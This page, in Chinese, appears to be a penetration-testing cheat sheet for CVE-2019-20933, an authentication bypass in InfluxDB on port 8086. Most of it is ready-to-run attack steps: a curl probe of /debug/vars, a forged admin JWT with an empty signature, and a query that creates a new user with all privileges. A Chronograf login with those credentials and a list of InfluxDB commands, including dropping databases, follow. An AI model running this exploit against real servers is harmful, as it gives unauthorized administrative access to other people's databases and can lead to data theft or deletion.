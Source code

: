 # 8086 InfluxDB

## 未授权访问 (CVE-2019-20933)

```bash
HOST=; PORT=8086; # TARGET HOST INFO
URL=http://$HOST:$PORT;
curl $URL/debug/vars
```

使用 [https://jwt.io/](https://jwt.io/) 生成 Token。HEADER 和 PAYLOAD 如下所示，VERIFY SIGNATURE 设置为空。

```bash
# HEADER: ALGORITHM & TOKEN TYPE
{
  "alg": "HS256",
  "typ": "JWT"
}
# PAYLOAD
{
  "username": "admin",
  "exp": 2986346267
}
```

通过 curl 命令可以直接验证漏洞（也可以添加 HTTP Header 自行访问）。

```bash
AUTH="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s"
BODY=q="CREATE USER \"influx\" with PASSWORD '123456' WITH ALL PRIVILEGES;"
curl -X POST -H $AUTH -d $BODY $URL/query
# 返回结果中如果包含 {"results":[{"statement_id":0}]} 字段则代表用户添加成功
```

成功添加用户后可以使用图形化工具 [chronograf](https://github.com/influxdata/chronograf) 操作数据库。

```bash
# 运行命令后访问 localhost:8888
URL=http://$HOST:$PORT;
chronograf --influxdb-url="$URL" --influxdb-username="influx" --influxdb-password="123456"
```

## InfluxDB 常用命令

```bash
显示所有数据库: show atabases
显示所有用户: show users
显示所有 measurements: show measurements
创建用户: create user "influx" with password 'password' with all privileges;
创建数据库: create database “db_name”
删除数据库: drop database “db_name”
使用数据库: use db_name
查询 measurement_name 表的前十条数据: select * from measurement_name limit 10
```
